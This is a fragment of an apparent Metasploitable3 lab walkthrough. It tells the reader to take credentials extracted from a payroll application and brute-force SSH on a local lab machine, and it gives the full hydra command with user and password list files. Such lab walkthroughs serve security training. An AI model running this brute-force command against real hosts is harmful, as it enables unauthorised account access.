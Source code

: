 1. After extracting credentials from the Payroll Application, use the credentials to run a bruteforce attack.

```
hydra -L user.txt -P pass.txt ssh://127.0.0.1:2222
```
![alt text](https://github.com/ACIC-Africa/metasploitable3/blob/master/images/ssh-bruteforce/SSH_Bruteforce.png "Result 1")

